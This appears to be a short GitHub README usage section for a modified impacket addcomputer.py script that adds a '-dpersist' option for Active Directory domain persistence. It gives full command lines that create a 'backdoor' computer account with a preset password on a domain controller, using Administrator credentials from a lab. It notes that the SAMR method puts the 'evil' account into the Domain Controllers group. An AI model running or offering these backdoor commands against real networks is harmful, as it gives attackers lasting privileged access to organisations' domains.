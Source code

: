 ## Usage

I just add [-dpersist] option for domain persistence. BTW, addcomputer.py default is use SAMR method to process requests.  
```
python3 ./addcomputer.py -computer-name 'backdoor-xiaoli2$' -computer-pass 'B@ckdo0r' -dpersist -dc-ip 192.168.10.90 xiaoli-vuln-2019.com/Administrator:111qqq...
```
![image](https://user-images.githubusercontent.com/30458572/155474120-33fac6d9-6f6f-42d7-8ecb-853fbd50beb0.png)

Difference with LDAPS method, SAMR method will add evil computer account to [Domain Controllers] group.
![image](https://user-images.githubusercontent.com/30458572/155474385-5fc155ab-5f89-42b6-bd57-ae701e446215.png)

LDAPS method will not do this.
```
python3 ./addcomputer.py -computer-name 'backdoor-xiaoli2$' -computer-pass 'B@ckdo0r' -method LDAPS -dpersist -dc-ip 192.168.10.90 xiaoli-vuln-2019.com/Administrator:111qqq...
```
![image](https://user-images.githubusercontent.com/30458572/155474567-34324b0e-db18-4c08-ac00-74acdabd901c.png)
![image](https://user-images.githubusercontent.com/30458572/155474683-7258dac7-c9b2-4a41-a2d6-f1e397980771.png)
